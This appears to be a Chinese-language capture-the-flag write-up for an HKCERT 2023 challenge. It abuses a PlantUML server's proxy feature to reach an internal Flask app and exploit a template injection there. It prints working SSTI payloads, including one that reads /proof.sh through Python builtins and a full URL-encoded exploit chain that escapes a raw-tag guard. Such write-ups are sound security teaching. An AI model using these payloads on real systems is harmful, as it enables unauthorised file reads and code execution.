

# Probably Unknown's Markup Language

通過觀察 `docker-compose-yml`，我們發現，題目給出的 plamtUML 實例可以通過域名 `puml.local` 來訪問載有 flag 的 Web 服務。

閲讀 [plantUML 文檔](https://plantuml.com/server)，plantUML 可以使用内置的 proxy 功能從 URL 中解析 plantUML 代碼。

API 格式如下：`http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=<url (url encoded)>`

下面我們閲讀 `web/server.py`，根據源代碼内容，我們發現目標 Web 服務存在 Flask SSTI 漏洞，但利用 `` 阻止注入。

漏洞利用方式如下：`http://puml.local/?<payload (url encoded)>`

首先，我們構造以下 Payload：

```

@startuml
a:{{''.__class__.__mro__[1].__subclasses__()}}
@enduml

```

根據返回的 List，我們可以查找到 `<class '_frozen_importlib._ModuleLock'>` 處在下標為 `100` 的位置。

考慮到文件存儲在 `/proof.sh`，我們構造以下 Payload：

```

@startuml
a:{{''.__class__.__mro__[1].__subclasses__()[100].__init__.__globals__.__builtins__['open']('/proof.sh').read()}}
@enduml

```

經過 URL Encode，得到如下 Payload URL：

```
http://chal.hkcert23.pwnable.hk:28104/proxy?fmt=svg&src=http://puml.local/?puml=%250A%7B%2525%2520endraw%2520%2525%7D%250A@startuml%250Aa:%7B%7B%2527%2527.__class__.__mro__%5B1%5D.__subclasses__()[100].__init__.__globals__.__builtins__[%27open%27](%27/proof.sh%27).read()%7D%7D%250A@enduml%250A%7B%2525%2520raw%2520%2525%7D%250A
```

訪問 URL，得到 Flag。

